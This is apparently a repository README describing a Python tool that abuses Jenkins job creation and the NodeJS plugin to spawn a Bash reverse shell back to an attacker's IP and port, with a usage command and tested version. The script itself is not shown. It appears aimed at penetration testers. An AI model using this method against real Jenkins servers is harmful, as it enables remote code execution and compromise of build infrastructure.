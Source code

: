 ## linux_revshell_nodejs.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Linux. Linux must have [NodeJS](https://nodejs.org/en/download) application installed. Additionally, Jenkins must have the "[nodejs](https://plugins.jenkins.io/nodejs/)" plugin installed.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new **"Freestyle project"** JOB.\
![linux_revshell_nodejs_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_nodejs.py/images/linux_revshell_nodejs_1.png)

Then configures or BUILD it to **"Execute NodeJS script"** with the **Bash** payload.\
![linux_revshell_nodejs_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_nodejs.py/images/linux_revshell_nodejs_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:\
python3 ./linux_revshell_nodejs.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![linux_revshell_nodejs_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_nodejs.py/images/linux_revshell_nodejs_3.png)
![linux_revshell_nodejs_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_nodejs.py/images/linux_revshell_nodejs_4.png)

Tested on Jenkins 2.150.2 on Ubuntu Server 22.04.3 LTS
